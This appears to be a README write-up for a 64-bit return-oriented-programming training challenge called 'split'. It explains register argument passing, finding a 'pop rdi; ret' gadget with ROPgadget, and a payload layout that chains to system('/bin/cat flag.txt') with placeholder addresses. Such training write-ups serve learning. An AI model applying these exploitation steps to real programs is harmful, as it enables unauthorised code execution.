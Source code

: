 # split - 64bit

The 64-bit binary is very similar to the [32-bit exploit](../32-bit/README.md). However, in x86 parameters are passed via registers instead of the stack.

Therefore, we need a gadget that pops our parameter (`/bin/cat flag.txt`) into the first parameter.

The order of the registers can be seen below:
```
+---------+------+------+------+------+------+------+
| syscall | arg0 | arg1 | arg2 | arg3 | arg4 | arg5 |
+---------+------+------+------+------+------+------+
|   RAX   | RDI  | RSI  | RDX  | RCX  | R8   | R9   |
+---------+------+------+------+------+------+------+
```

Finding the gadget can be achived via `ROPgadget`

Running:

```
$ ROPgadget --binary ./split | grep pop

[...]
0x0000000000400883 : pop rdi ; ret
[...]
```

Therefore out payload will be:
```
junk            p64(0x90 x 40 bytes)
pop_rdi         p64(0x400883)
bin_cat addr    p64(<ADDR>)
system addr     p64(<ADDR>)
```

With the `<ADDR> `values being replaced with values discovered in the same was as the 32-bit binary.

This results in the bit_cat address being placed in the `RDI` and, thus, passed as a parameter to `system`.